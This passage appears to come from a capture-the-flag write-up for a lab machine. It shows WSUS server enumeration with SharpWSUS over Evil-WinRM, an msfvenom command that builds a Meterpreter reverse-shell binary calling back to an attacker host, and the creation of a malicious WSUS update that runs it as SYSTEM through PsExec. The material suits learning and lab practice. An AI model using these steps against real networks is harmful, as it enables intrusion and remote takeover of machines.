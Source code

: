 Inspect WSUS server.

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe inspect

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Inspect WSUS Server

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent


####################### Computer Enumeration #######################
ComputerName, IPAddress, OSVersion, LastCheckInTime
---------------------------------------------------
dc.outdated.htb, dead:beef::201, 10.0.17763.1432, 11/29/2024 8:14:58 PM

####################### Downstream Server Enumeration #######################
ComputerName, OSVersion, LastCheckInTime
---------------------------------------------------

####################### Group Enumeration #######################
GroupName
---------------------------------------------------
All Computers
Downstream Servers
Unassigned Computers

[*] Inspect complete
```

To run further exploit, I need to upload two more binaries;
- Window Signed `PsExec64.exe`
- Reverse shell binary generated by `msfvenom`
  `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=9000 -f exe -o rshell.exe`

Then, let's create WSUS update.

```bash
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe create /payload:"C:\Users\sflowers\Documents\PsExec64.exe" /args:" -accepteula -s -d C:\Users\sflowers\Documents\rshell.exe" /title:"WSUS Privesc"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Create Update
[*] Creating patch to use the following:
[*] Payload: PsExec64.exe
[*] Payload Path: C:\Users\sflowers\Documents\PsExec64.exe
[*] Arguments:  -accepteula -s -d C:\Users\sflowers\Documents\rshell.exe
[*] Arguments (HTML Encoded):  -accepteula -s -d C:\Users\sflowers\Documents\rshell.exe
```